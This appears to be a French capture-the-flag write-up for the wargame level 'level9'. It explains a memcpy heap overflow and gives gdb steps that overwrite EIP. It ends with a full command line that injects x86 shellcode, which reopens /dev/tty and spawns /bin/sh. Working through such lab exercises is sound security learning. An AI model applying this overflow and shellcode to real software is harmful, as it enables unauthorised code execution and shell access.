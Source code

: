 ### Analyse

Cette fonction utilise memcpy pour écrire les octets à partir de l'emplacement mémoire pointé par "a", l'argument de la fonction, vers les emplacements mémoire commençant à "annotation".
Elle utilise également la longueur de la chaîne "a" comme nombre d'octets à écrire.
Étant donné que nous pouvons contrôler la valeur de "a", et par conséquent sa longueur, nous pouvons déborder le tampon "annotation" et provoquer des modifications dans la heap.

### Exploit

1. buffer to eax : 108
   aller dans gdb
   run $(python -c  "print  '\x90' * (109)") 

2. la Heap a ete override
    checker info proc map(dans gdb) pour connaitre l'addr du debut de la heap
    puis faite x/50wx <start_addr>
3. On constate que la heap commence a etre reecrite a partir de <start_addr + 0xc>

4. Si nous faisons la commande suivante dans gdb : 
    `run $(python -c  "print '\x90' * (108) + '\x0c\xa0\x04\x08'")`
    Nous constatons que nous avons reecrit l'EIP.

5. Nous devons ensuite faire que edx soit une addr qu'on peut call pour ensuite qu'il execute notre shellcode
    run $(python -c  "print '\x10\xa0\x04\x08' + '\x90' * (108 - 4) + '\x0c\xa0\x04\x08'")    On finis avec :
    Program received signal SIGSEGV, Segmentation fault.
    0x0806b000 in ?? ()
    En gros il a remonter tout la heap jusqu'a la fin pour voir si il y avait du code a execute mais il a rien vu.

6. Mettre le shellcode dans le code
```
 ./level9 $(python -c  "print '\x10\xa0\x04\x08' +  '\x90' * (108 - 4 - 55) + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + '\x0c\xa0\x04\x08'")
 
```
